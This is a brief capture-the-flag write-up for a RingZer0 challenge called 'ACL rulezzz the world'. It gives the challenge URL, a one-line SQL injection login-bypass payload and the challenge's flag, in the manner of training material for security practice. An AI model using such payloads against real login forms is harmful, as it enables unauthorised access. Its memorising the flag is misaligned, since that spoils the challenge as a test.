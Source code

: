 <h1>ACL rulezzz the world</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10002/</p>
<h3>Solution</h3>

<p>Payload : admin'or'1'=1#</p>

<h3>Flag</h3>
<pre>
FLAG-sdfoip340e89rfuj34woit
</pre>
